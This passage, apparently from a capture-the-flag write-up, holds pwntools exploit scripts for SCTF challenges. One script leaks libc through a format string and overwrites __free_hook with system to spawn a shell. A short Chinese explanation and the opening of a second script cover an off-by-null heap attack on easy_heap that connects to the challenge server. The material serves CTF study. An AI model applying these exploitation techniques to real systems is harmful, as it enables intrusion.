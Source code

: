 ```
    p.recvuntil("Your choice:")
    p.sendline("1")
    p.recvuntil("Input the size:")
    p.sendline(str(size))
    p.recvuntil("Input the note:")
    p.send(content)
p.recvuntil("Welcome to SCTF:")
p.sendline("%a"*5)
p.recvuntil("0x0p+00x0p+00x0.0")
lib_addr = int(p.recvuntil("p-10220x",drop=True)+"0",16) - a.symbols["_IO_2_1_stdout_"]
free_hook = a.symbols["__free_hook"]+lib_addr
system = lib_addr+a.symbols["system"]
print hex(lib_addr)
new0(0x1," ")
remove(0)
remove(0)
raw_input()
new0(0x8,p64(free_hook))
new0(0x10,"n")


new(24,p64(system))
new(0x60,"/bin/shx00")
remove(4)

p.interactive()
```

### <a class="reference-link" name="easy_heap"></a>easy_heap

漏洞点在off by null，可以利用unlink控制全局变量改mmap内存为shellcode，

接着利用控制的区域构造一个fake chunk

然后free使得它进入unsortedbin，利用控制覆盖低位，指向malloc_hook，

然后再edit改为mmap的地址就可以getshell了。

```
from pwn import*
context.arch = "amd64"
context.log_level = "debug"
#p = process("./easy_heap")#,env=`{`"LD_PRELOAD":"./libc.so.6"`}`)
a = ELF("./easy_heap")
e = a.libc
print hex(e.symbols["puts"])
p = remote("132.232.100.67",10004)
#gdb.attach(p)#,"b *0x5555555554a0")
def add(size):
    p.recvuntil("&gt;&gt; ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
def remove(idx):
    p.recvuntil("&gt;&gt; ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
def edit(idx,content):
    p.recvuntil("&gt;&gt; ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Content: ")
```